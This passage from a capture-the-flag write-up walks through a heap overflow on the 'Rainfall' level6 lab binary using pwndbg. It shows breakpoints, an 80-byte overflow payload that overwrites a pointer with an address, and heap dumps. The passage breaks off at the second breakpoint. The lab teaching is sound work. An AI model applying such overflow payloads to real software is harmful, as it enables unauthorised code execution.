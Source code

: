 ```
End of assembler dump.
pwndbg> b *0x08048491
Breakpoint 2 at 0x8048491
pwndbg> b *0x080484a1
Breakpoint 3 at 0x80484a1
pwndbg> b *0x080484c2
Breakpoint 4 at 0x80484c2
pwndbg> b *0x080484ca
Breakpoint 5 at 0x80484ca
```

The offset will change due to the difference in architecture from 32-bit to 64-bit. On my host machine, it will be 80, not 72. We will see why.

So, our payload is like:
python2 -c "print 'A'*80 + '\x54\x84\x04\x08'"

Let’s run it and see what happens.

```
r `python2 -c "print 'A'*80 + '\x54\x84\x04\x08'"`
Starting program: /home/kali/rainfall/level6/level6 `python2 -c "print 'A'*80 + '\x54\x84\x04\x08'"` 
pwndbg> c
Continuing.

Breakpoint 2, 0x08048491 in main ()
```
We hit our first breakpoint. Let’s see what happens in the heap using the vis command.

```
pwndbg> vis 
0x804a198       0x00000000      0x00000051      ....Q...
0x804a1a0       0x00000000      0x00000000      ........
0x804a1a8       0x00000000      0x00000000      ........
0x804a1b0       0x00000000      0x00000000      ........
0x804a1b8       0x00000000      0x00000000      ........
0x804a1c0       0x00000000      0x00000000      ........
0x804a1c8       0x00000000      0x00000000      ........
0x804a1d0       0x00000000      0x00000000      ........
0x804a1d8       0x00000000      0x00000000      ........
0x804a1e0       0x00000000      0x00000000      ........
0x804a1e8       0x00000000      0x00021e19      ........         <-- Top chunk
pwndbg> p 0x51
$1 = 81
```
This is what we expected. Malloc allocates 80 bytes instead of 64 in 64-bit architecture, and 72 bytes in 32-bit architecture. We verified that with the cyclic pattern above. Let’s hit the second breakpoint and use vis again.
```
pwndbg> c                                                                                                                                                                                   
Continuing.                                                                                                                                                                         
Breakpoint 3, 0x080484a1 in main ()
pwndbg> vis
0x804a198       0x00000000      0x00000051      ....Q...
0x804a1a0       0x00000000      0x00000000      ........
0x804a1a8       0x00000000      0x00000000      ........
0x804a1b0       0x00000000      0x00000000      ........
0x804a1b8       0x00000000      0x00000000      ........
0x804a1c0       0x00000000      0x00000000      ........
0x804a1c8       0x00000000      0x00000000      ........
0x804a1d0       0x00000000      0x00000000      ........
0x804a1d8       0x00000000      0x00000000      ........
0x804a1e0       0x00000000      0x00000000      ........
```